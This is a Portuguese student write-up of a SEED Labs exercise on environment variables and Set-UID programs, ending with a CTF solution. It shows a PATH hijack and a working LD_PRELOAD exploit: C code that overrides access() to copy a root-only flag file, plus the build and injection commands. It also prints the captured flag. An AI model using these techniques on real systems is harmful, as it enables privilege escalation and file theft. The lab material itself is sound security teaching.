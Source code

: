 # SEED Labs – Environment Variable and Set-UID Program Lab

## Tarefa 1: Manipulação de Variáveis de Ambiente

* Ao usar os comandos ```printenv``` e ```env```, observamos que foram impressas as variáveis de ambiente. Para além disso, ao usar, por exemplo, ```printenv PWD``` ou ```env | grep PWD```, verificamos que obtivemos o mesmo valor que obteríamos com o comando ```pwd```, ou seja, o caminho da localização atual (na verdade, no caso de ```env | grep PWD```, obtivemos os valores de PWD E OLDPWD).

* Ao fazer ```unset PWD``` (seguido de ```env | grep PWD```), verificamos que a variável de ambiente PWD e o seu valor já não apareceram, mas apenas OLDPWD.


## Tarefa 2: Passagem de Variáveis de Ambiente do Processo Pai para o Processo Filho

* No passo 1, observamos que o ficheiro no qual se guardou o output do programa ```myprintenv.c``` continha as variáveis de ambiente do processo filho.

* No passo 2, comentamos a chamada à função ```printenv()``` no caso do processo filho e descomentamos a chamada à mesma função no caso do processo pai. Depois de compilar e correr, observamos que o novo ficheiro continha as variáveis de ambiente do processo pai, que pareciam ter os mesmos valores do processo filho.

* No passo 3, ao usar o comando ```diff``` para comparar os dois ficheiros obtidos anteriormente, verificamos que eles tinham exatamente o mesmo conteúdo, comprovando que as variáveis de ambiente foram herdadas do processo pai para o processo filho.


## Tarefa 3: Variáveis de Ambiente e ```execve()```

* No passo 1, compilando e correndo o programa, observamos que nada (nenhuma variável de ambiente) era impresso na consola, ou seja, o processo atual não tinha acesso às variáveis de ambiente, dado que o terceiro argumento da chamada à função ```execve()``` era NULL.

* Para as variáveis de ambiente serem impressas na consola, no passo 2, mudamos o terceiro argumento da chamada à função ```execve()``` para ```environ```: o apontador para o array das variáveis de ambiente do processo que chama a função. Assim, constatamos que já foram impressas as variáveis de ambiente pretendidas.

* Concluimos que o novo programa obtém as suas variáveis de ambiente através da passagem do valor da variável ```environ``` como terceiro parâmetro da chamada à função ```execve()```, ou seja, respondendo à questão inicial, as variáveis de ambiente **não** são automaticamente herdadas pelo novo programa.


## Tarefa 4: Variáveis de Ambiente e ```system()```

* Compilando e correndo o programa apresentado, verificamos que a chamada ```system("/usr/bin/env")``` fez com que as variáveis de ambiente do processo que a realizou passassem para o novo processo e fossem impressas. De facto, isto acontece porque o comando ```system()```, na verdade, cria uma *shell* na qual executa o comando passado como parâmetro.


## Tarefa 5: Variável de Ambiente e Programas ```Set-UID```

* Conforme esperado, o programa do passo 1 imprimiu todas as variáveis de ambiente do processo atual.

* No passo 2, corremos o comando ```sudo chown root filename``` para mudar o *owner* do ficheiro para *root* e ```sudo chmod 4755 filename``` para mudar as permissões do ficheiro e, neste caso em concreto, torná-lo um programa ```Set-UID```

* No passo 3, corremos os seguintes comandos: ```export PATH=$PATH:/home/seed/Desktop```, ```export LD_LIBRARY_PATH=caminho``` e ```export SEGURANCA=20```. Fazendo ```./filename | grep PATH```, observamos que o o valor da variável de ambiente PATH foi alterado. Correndo ```./filename | grep SEGURANCA```, verificamos que foi criada uma nova variável de ambiente SEGURANCA. Contudo, ao executar ```./filename | grep LD_LIBRARY_PATH``` não obtivemos nenhum resultado. Isto significa que, apesar de ser possível alterar o valor de determinadas variáveis de ambiente (ou criar novas), não foi possível fazê-lo para LD_LIBRARY_PATH. Essa possibilidade criaria uma vulnerabilidade de segurança, pois permitiria que um atacante direcionasse o programa para uma biblioteca maliciosa.


## Tarefa 6: A Variável de Ambiente PATH e Programas ```SET-UID```

* Nesta tarefa, criamos o programa pretendido, mudamos o seu *owner* para ```root``` e tornamo-lo um programa ```Set-UID```. A par disto, experimentamos criar um outro programa chamado "ls" no diretório atual com um código que simplemente imprimia "Hello, World" e alteramos o valor da variável PATH conforme sugerido para se iniciar pelo caminho do diretório atual. Assim, ao correr o programa criado inicialmente, verificamos que, em vez de ser apresentada a listagem dos conteúdos do diretório atual (como seria esperado numa chamada ao comando ```ls```), foi impresso "Hello, World". Ou seja, concluiu-se que é possível fazer com que um programa ```Set-UID``` corra código malicioso criado por um atacante e com privilégio *root*.


# CTF 4

* Ligando-nos ao servidor Linux a explorar, observamos o conteúdo do diretório ```/home/flag_reader``` e, em particular, os ficheiros *admin_note.txt*, *main.c* e *my_script.sh*

* Com a leitura do ficheiro *admin_note.txt*, pudemos deduzir que só teríamos permissões para criar novos ficheiros dentro do diretório ```tmp```

* Através da análise do ficheiro *main.c*, percebemos que a *flag* deveria encontrar-se em ```/flags/flag.txt``` e que a função ```access()``` era chamada com esse caminho como primeiro argumento

* Após vermos o ficheiro *my_script.sh* - que intuimos ser o script corrido regularmente no servidor e, como tal, corrido como *root*, com mais permissões do que o nosso utilizador *flag_reader* - compreendemos que este lia os valores das variáveis de ambiente do ficheiro ```home/flag_reader/env``` e, de seguida, corria o executável ```home/flag_reader/reader```, que depreendemos ser o ficheiro resultante da compilação do *main.c*

* Constatamos ainda (com ```ls -la```) que o ficheiro ```home/flag_reader/env``` era apenas um apontador para o ficheiro ```tmp/env```

* Confirmamos, então, que não tínhamos permissões para aceder a ```/flags/flag.txt```, mas que as tínhamos para criar e editar (ler e escrever) ficheiros no diretório ```tmp```

* Assim, a nossa abordagem passaria por: no diretório ```tmp```, criar um novo ficheiro *new* (```touch new```) com permissões para qualquer utilizador o ler, escrever e executar (```chmod 777 new```), no qual deveria ser escrita a *flag*

* Ora, com base no descoberto anteriormente e numa tentativa de aproveitar a chamada periódica do servidor à função ```access("/flags/flag.txt")```, pensamos em criar uma função ```access()``` com a mesma assinatura da função original, mas cujo objetivo (malicioso) seria ler a *flag* do ficheiro passado como parâmetro e escrevê-la no novo ficheiro *new* criado por nós

* Criamos um código C com esta finalidade e colocamo-lo (com ```echo```) num novo ficheiro *mylib.c*
```
echo '
    #include <stdio.h>
    int access(const char *pathname, int mode) {
        char flag[1000];
        FILE *r = fopen("/flags/flag.txt", "rb");
        fgets(flag, sizeof(flag), r);
        fclose(r);
        FILE *w = fopen("/tmp/new.txt", "wb");
        fputs(flag, w);
        fclose(w);
        return 0;
    }
' >> mylib.c
```

* A vulnerabilidade a explorar para alcançar o nosso objetivo seria abusar da variável de ambiente LD_PRELOAD, isto é, editarmos o ficheiro *env* para conter LD_PRELOAD=..., sendo ... o nome de uma biblioteca partilhada criada por nós a partir do ficheiro *mylib.c* escrito anteriormente

* Isto faria com que a biblioteca partilhada criada e especificada por nós fosse carregada antes de todas as outras, substituindo a chamada à função ```access()``` original pela função ```access()``` em *mylib.c* e, com isso, resultaria no efeito desejado de leitura e escrita da *flag* através do processo que tinha permissões para tal, corrido pelo servidor

* Em particular, corremos ```gcc -fPIC -g -c mylib.c```, ```gcc -shared -o libmylib.so.1.0.1 mylib.o -lc``` e ```echo "LD_PRELOAD=/tmp/libmylib.so.1.0.1" >> env``` para criar a biblioteca partilhada e definir o valor pretendido para a variável de ambiente

* Assim que o script correu no servidor, o ficheiro *new* passou a conter **flag{01ef8d0277833b8af3ac65d5d182f146}**, conforme esperado
